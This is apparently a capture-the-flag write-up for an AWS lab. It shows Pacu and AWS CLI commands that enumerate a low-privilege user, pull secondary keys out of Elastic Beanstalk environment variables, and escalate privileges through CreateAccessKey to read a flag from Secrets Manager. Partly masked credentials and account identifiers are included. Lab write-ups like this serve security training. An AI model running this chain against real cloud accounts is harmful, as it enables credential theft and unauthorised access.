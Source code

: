 # Initial Access

### Credentials

```bash
initial_low_priv_credentials = Access Key: AKIAUR.......
Secret Key: /ocpu1....
```
### Enumeration
```bash
aws sts get-caller-identity --profile beanstalk
{
    "UserId": "AIDAURY6ZIC4OOO6J5V35",
    "Account": "313060311224",
    "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_low_priv_user"
}
```
```bash
Pacu (beanstalk:imported-beanstalk) > whoami
{
  "UserName": "cgide9uo5os4u0_low_priv_user",
  "RoleName": null,
  "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_low_priv_user",
  "AccountId": "313060311224",
  "UserId": "AIDAURY6ZIC4OOO6J5V35",
  "Roles": null,
  "Groups": [],
  "Policies": [],
  "AccessKeyId": "AKIAURY6ZIC4FKWDNDEO",
  "SecretAccessKey": "/ocpu1vt8gnsMHaCdGn8********************",
  "SessionToken": null,
  "KeyAlias": "imported-beanstalk",
  "PermissionsConfirmed": false,
  "Permissions": {
    "Allow": {},
    "Deny": {}
  }
}
```
- note beanstalk

After researching beanstalk I found this link:

https://rhinosecuritylabs.com/tools/new-pacu-module-enumerating-elastic-beanstalk/

Ran pacu, imported keys, and ran the elasticbeanstalk__enum module and found:

```bash
"Secrets": [
        {
            "OptionName": "SSHSourceRestriction",
            "Value": "tcp,22,22,0.0.0.0/0"
        },
        {
            "OptionName": "EnvironmentVariables",
            "Value": "SECONDARY_SECRET_KEY=uPt0xO9g.....,PYTHONPATH=/var/app/venv/staging-LQM1lest/bin,SECONDARY_ACCESS_KEY=AK....."
        },
        {
            "OptionName": "SECONDARY_ACCESS_KEY",
            "Value": "AKIAURY....."
        }
    ],
```
### Enumeration 2nd Profile
From there, I configured a new aws profile with the given access key and secret access key and verified my profile

```bash
aws sts get-caller-identity --profile secretbeans
{
    "UserId": "AIDAURY6ZIC4BGVSF5PN5",
    "Account": "313060311224",
    "Arn": "arn:aws:iam::313060311224:user/cgide9uo5os4u0_secondary_user"
}
```
I used pacu and ran the iam__enum_permissions module and used whoami to display permissions

```bash
Permissions": {
    "Allow": [
      "iam:GetUser",
      "iam:ListAttachedUserPolicies",
      "dynamodb:DescribeEndpoints",
      "sts:GetSessionToken",
      "sts:GetCallerIdentity",
      "iam:ListPolicies",
      "iam:ListRoles",
      "iam:GetUser",
      "iam:ListUsers",
      "iam:ListGroups"
    ],
```
### Privesc 2nd Profile

From there I ran ```run iam__privesc_scan --scan-only``` on pacu and it revealed we can privilege escalate through CreateAccessKey

I then ran
```
run iam__privesc_scan --user-methods CreateAccessKey
```
and navigated to the secrets manager to retrive the flag






  
